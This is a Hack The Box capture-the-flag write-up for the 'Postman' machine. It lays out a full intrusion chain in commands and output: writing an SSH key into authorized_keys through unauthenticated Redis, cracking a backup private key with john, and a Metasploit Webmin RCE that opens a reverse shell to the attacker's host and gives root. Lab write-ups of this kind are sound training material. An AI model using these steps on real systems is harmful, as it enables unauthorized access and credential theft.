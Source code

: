 
---
layout: post
title: Postman (10.10.10.160)
description: >
  Hackthebox Postman Writeup
image: /assets/img/postman.png
noindex: true
---

Start with an Nmap scan

```
# nmap -sV -sC -T4 -p- 10.10.10.160
Starting Nmap 7.80 ( https://nmap.org ) at 2019-11-05 18:04 EST
Nmap scan report for postman (10.10.10.160)
Host is up (0.063s latency).
Not shown: 65531 closed ports
PORT      STATE SERVICE VERSION
22/tcp    open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 46:83:4f:f1:38:61:c0:1c:74:cb:b5:d1:4a:68:4d:77 (RSA)
|   256 2d:8d:27:d2:df:15:1a:31:53:05:fb:ff:f0:62:26:89 (ECDSA)
|_  256 ca:7c:82:aa:5a:d3:72:ca:8b:8a:38:3a:80:41:a0:45 (ED25519)
80/tcp    open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: The Cyber Geek's Personal Website
6379/tcp  open  redis   Redis key-value store 4.0.9
10000/tcp open  http    MiniServ 1.910 (Webmin httpd)
|_http-title: Site doesn't have a title (text/html; Charset=iso-8859-1).
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 83.24 seconds
```
So a few ports open. First I enumerated port 80 and didn't find anything useful. Next I checked out port 10000 and once there I had to add ```postman``` to my ```/etc/hosts``` file. Once that was done I refreshed the page and was greeted with a ```webmin``` login. Now I was not able to do anything more since every exploit requires valid credentials which I don't have. Lastly, was port 6379 with redis. First I try to connect using ```telnet``` to see if the service has any sort of authentication set and turns out it doesn't. next step was to install ```redis-tools``` so I could use the ```redis-cli``` to interact with the redis service. Once that was done I was able to find an exploit where I upload my own ssh keys to the server and use that to ssh into the system.

First step is to take my ssh key and copy it to a new file but at the same time generating some random data to the beginning and end of the file
```
# (echo -e "\n\n"; cat id_rsa.pub; echo -e "\n\n") > key.txt
```
Next step is to set the keys into the database. You should see and OK message
```
# cat key.txt | redis-cli -h 10.10.10.160 -p 6379 -x set bb
OK
```
Now I need to copy the ssh key into the .ssh folder but first I need to find where that is. Using the command below I see its located at ```/var/lib/redis/.ssh```.
```
10.10.10.160:6379> config get dir
1) "dir"
2) "/var/lib/redis/.ssh"
```
Now I change into the directory
```
10.10.10.160:6379> config set dir /var/lib/redis/.ssh
OK
```
Then I change the name of the database to ```authorized_keys``` since this will be the name of out file. Then just save and exit.
```
10.10.10.160:6379> config set dbfilename "authorized_keys"
OK
10.10.10.160:6379> save
OK
10.10.10.160:6379> exit
```
Now I can ssh in as the user ```redis``` from my host machine
```
# ssh -i id_rsa redis@10.10.10.160
Welcome to Ubuntu 18.04.3 LTS (GNU/Linux 4.15.0-58-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage


 * Canonical Livepatch is available for installation.
   - Reduce system reboots and improve kernel security. Activate at:
     https://ubuntu.com/livepatch
Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings

Last login: Tue Nov  5 19:58:37 2019 from 10.10.14.19
redis@Postman:~$ 
```
Now doing some manual enumeration I found an ```id_rsa.bak``` file in ```/opt```. I copied this file to my host machine and saw that it was password protected. Using ```ssh2john``` I can convert the ssh key into a format that john and read and will crack the password for me.
```
# python ssh2john.py id_rsa.bak > id_rsa.hash
```
Now john cracks the hash in only a few seconds and I am given a password of ```computer2008```
```
# john --wordlist=/usr/share/wordlists/rockyou.txt id_rsa.hash 
Using default input encoding: UTF-8
Loaded 1 password hash (SSH [RSA/DSA/EC/OPENSSH (SSH private keys) 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 1 for all loaded hashes
Cost 2 (iteration count) is 2 for all loaded hashes
Will run 4 OpenMP threads
Note: This format may emit false positives, so it will keep trying even after
finding a possible candidate.
Press 'q' or Ctrl-C to abort, almost any other key for status
computer2008     (id_rsa.bak)
Warning: Only 2 candidates left, minimum 4 needed for performance.
1g 0:00:00:12 DONE (2019-11-05 15:33) 0.07818g/s 1121Kp/s 1121Kc/s 1121KC/sa6_123..*7¡Vamos!
Session completed
```
I tried to ssh in as the user ```Matt``` and ```root``` and niether worked so the only other thing I could think of was to use the password for the ```webmin``` login page. It ended up working as the username ```Matt``` and password ```computer2008```. Now since I have credentials, I can use one of the CVE's from earlier. I spin up metasploit and load in the module ```exploit/linux/http/webmin_packageup_rce```. After entering all the necessary info I type run and it spawns a shell. If I do a ```whoami``` I see that I am the user ```root```
```
msf5 exploit(linux/http/webmin_packageup_rce) > run

[*] Started reverse TCP handler on 10.10.14.39:4444 
[+] Session cookie: 3e1a4b0fabef10776fd267a6809f2f62
[*] Attempting to execute the payload...
[*] Command shell session 1 opened (10.10.14.39:4444 -> 10.10.10.160:44420) at 2019-11-05 16:25:54 -0500

whoami
root
```
To give myself a better shell I will spawn myself a python tty shell
```
python -c 'import pty;pty.spawn("/bin/bash")'
root@Postman:/usr/share/webmin/package-updates/# cd
root@Postman:~#
```
From here I can read the user flag located at ```/home/Matt/user.txt```
```
root@Postman:~# cat /home/Matt/user.txt
517ad0ec2458ca****************
```
And the root flag from ```/root/root.txt```
```
root@Postman:~# cat root.txt
cat root.txt
a257741c5bed8be7**************
```
<br><br><br><br>

